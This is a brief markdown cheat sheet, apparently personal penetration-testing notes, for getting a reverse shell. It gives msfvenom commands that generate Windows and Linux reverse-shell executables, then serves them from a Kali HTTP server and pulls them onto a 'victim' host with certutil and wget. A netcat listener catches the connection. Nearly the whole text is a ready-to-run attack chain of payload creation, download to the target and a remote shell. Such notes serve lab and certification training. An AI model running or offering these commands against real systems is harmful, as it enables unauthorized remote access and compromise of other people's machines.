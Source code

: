 
## Generate shell with MSFvenom
https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/
```
# Basic Windows shell
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe

# Basic Linux shell
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
```

## Transfer the shell to the victim host
Assuming we have a basic webshell
```
# On Kali
python -m http.server 8081

# On victim
  # Windows
  certutil.exe -urlcache -split -f http://<KALI_IP>:8081/shell-x86.exe shell.exe

  # Linux
  wget http://<KALI_IP>:8081/shell.elf
```

## Setup a netcat listener on Kali
```
nc -nlvp <PORT_from_msfvenom>
```
